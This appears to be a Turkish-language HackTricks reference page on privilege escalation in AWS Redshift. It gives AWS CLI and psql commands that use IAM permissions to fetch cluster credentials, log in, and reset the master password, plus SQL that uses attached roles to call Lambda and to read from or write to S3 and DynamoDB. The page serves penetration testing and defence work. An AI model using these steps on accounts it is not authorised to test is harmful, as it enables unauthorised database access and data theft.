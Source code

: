 # AWS - Redshift Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Redshift

RDS hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-services/aws-redshift-enum.md" %}
[aws-redshift-enum.md](../aws-services/aws-redshift-enum.md)
{% endcontent-ref %}

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

Bu izinlerle **tüm kümelerin bilgilerini** (isim ve küme kullanıcı adı dahil) alabilir ve **erişim için kimlik bilgilerini** edinebilirsiniz:
```bash
# Get creds
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```
**Potansiyel Etki:** Veritabanlarının içinde hassas bilgileri bulma.

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

Bu izinlerle **tüm kümelerin bilgilerini** alabilir ve **erişim için kimlik bilgilerini** edinebilirsiniz.\
Postgres kullanıcısının, kimlik bilgilerini almak için kullanılan **IAM kimliğinin izinlerine** sahip olacağını unutmayın.
```bash
# Get creds
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```
**Olası Etki:** Veritabanlarının içinde hassas bilgileri bulmak.

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

Aws cli üzerinden iç postgres (redshit) kullanıcısının **ana şifresini değiştirmek** mümkündür (bence ihtiyaç duyduğunuz izinler bunlar ama henüz test etmedim):
```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```
**Potansiyel Etki:** Veritabanlarında hassas bilgileri bulmak.

## Harici Servislere Erişim

{% hint style="warning" %}
Aşağıdaki tüm kaynaklara erişmek için **kullanılacak rolü belirtmeniz** gerekecek. Bir Redshift kümesi **kullanabileceğiniz bir AWS rolü listesi atayabilir** eğer **ARN'yi biliyorsanız** ya da sadece atanan varsayılanı kullanmak için "**default**" ayarlayabilirsiniz.

Ayrıca, [**burada açıklandığı gibi**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html), Redshift, daha fazla erişim elde etmek için rollerin birleştirilmesine de izin verir (ilk rol ikinci rolü üstlenebiliyorsa) ancak sadece **virgülle** **ayırarak**: `iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`
{% endhint %}

### Lambdas

[https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html) adresinde açıklandığı gibi, Redshift'ten **bir lambda fonksiyonunu çağırmak** mümkündür:
```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT)
RETURNS INT
STABLE
LAMBDA 'lambda_function'
IAM_ROLE default;
```
### S3

[https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html) adresinde açıklandığı gibi, **S3 bucket'larına okuma ve yazma yapmak mümkündür**:
```sql
# Read
copy table from 's3://<your-bucket-name>/load/key_prefix'
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Write
unload ('select * from venue')
to 's3://mybucket/tickit/unload/venue_'
iam_role default;
```
### Dynamo

[https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html) adresinde açıklandığı gibi, **dynamodb'dan veri almak** mümkündür:
```sql
copy favoritemovies
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```
{% hint style="warning" %}
Veri sağlayan Amazon DynamoDB tablosu, Amazon DynamoDB tablosunun bulunduğu AWS Bölgesini belirtmek için [REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region) seçeneğini kullanmadığınız sürece, kümenizle aynı AWS Bölgesinde oluşturulmalıdır.
{% endhint %}

### EMR

[https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html) adresini kontrol edin.

## Referanslar

* [https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
